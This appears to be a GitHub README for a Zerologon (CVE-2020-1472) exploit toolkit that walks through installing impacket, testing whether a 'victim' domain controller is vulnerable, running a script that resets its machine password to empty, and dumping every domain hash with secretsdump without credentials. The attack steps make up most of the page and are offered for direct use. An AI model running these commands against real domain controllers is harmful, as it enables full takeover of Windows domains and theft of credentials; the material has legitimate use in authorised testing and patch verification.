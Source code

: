 # Zerologon
Set of scripts, to test and exploit the zerologon vulnerability (CVE-2020-1472)

<br>
<img src="https://imgur.com/N5X7OA6.png" alt="banner"/>

***

# What is it?

ZeroLogon is a vulnerability that allows us to exploit a cryptography flaw in Microsoft's Active Directory Netlogon Remote Protocol (MS-NRPC), which allows users to log in to servers using NTLM. 

***

# Previous steps 

Before executing the exploit we must know that we need a different version of impacket, for this we will do the following. 

``apt remove --purge impacket-scripts python3-impacket``

``git clone https://github.com/SecureAuthCorp/impacket.git``

``cd impacket``

``pip install .``

***

# PoC (Proof Of Concept)

``git clone https://github.com/Nekoox/zerologon.git``

``cd zerologon``

``pip install -r requirements.txt``

## Check if the victim domain controller is vulnerable to zerologon.

``python3 tester.py <DC-NAME> <ip-address>``

In the event that the victim DC is vulnerable, a message will appear saying "Success! DC can be fully compromised by a Zerologon attack." 

Otherwise, that is, the victim DC is not vulnerable because the security hole has been patched, we will get the following message "Attack failed. Target is probably patched." 

***

## Change the password of the vulnerable domain controller to an empty string. 

``python3 empty_pw.py <DC-NAME> <ip-address>``

If the Domain Controller is vulnerable, after running the exploit it should not have any password. 


## Dump hashes of the Domain Controller. 

``> secretsdump.py -just-dc <DC-NAME>\$@<ip-address>``

By executing this, we will be able to see all the hashes of the domain, without any credentials. 


